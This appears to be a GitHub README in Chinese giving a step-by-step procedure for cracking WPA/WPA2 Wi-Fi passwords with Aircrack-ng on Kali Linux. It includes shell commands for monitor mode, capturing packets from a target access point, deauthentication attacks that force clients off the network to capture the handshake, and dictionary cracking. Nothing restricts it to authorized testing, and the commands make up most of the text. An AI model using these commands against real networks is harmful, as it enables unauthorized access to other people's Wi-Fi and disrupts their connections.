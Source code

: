 # Crack wifi Password
使用Aircrack-ng暴力破解WPA/WPA2加密wifi密碼。
* 暴力破解
* 字典檔

## **環境**
* 系統：Kali Linux
* 硬體：一台有無線網卡的電腦
* 一個字典檔

## **破解流程**
* step1：查看無線網卡名稱
  ```shell
  ifconfig
  ```
* step2：將網卡設定為monitor模式
  ```shell
  airmon-ng start 網卡名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/2.png)
* step3：搜尋目前位置所有 AP 站台
  ```shell
  airodump-ng 網卡監聽後的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/3.png)
* step4：使用`airodump-ng`開始收集封包，並將封包存在指定的目錄下
  ```shell
  airodump-ng -c 頻道 --bssid 目標AP的bssid -w 檔名 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/4.png)
* step5：使用`aireplay-ng`傳送假信號讓AP與Client之間進行互動，進而抓取中間的封包(需另外開視窗動作，收集封包不能斷)
  ```shell
  aireplay-ng -0 發送阻斷封包的數量 -a 目標AP的bssid -c 特定連線主機的bssid 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/5.png)
* step6：收集到 handshake
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/6.png)
* step7：使用`aircrack-ng`進行解密，(必須要擁有密碼字典檔)
  ```shell
  aircrack-ng -b 目標AP的bssid -w 密碼字典檔 使用airodump-ng收集到的arp封包
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-1.png)
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-2.png)
  
## **References**
* https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
* https://zh.wikipedia.org/zh-tw/Aircrack-NG
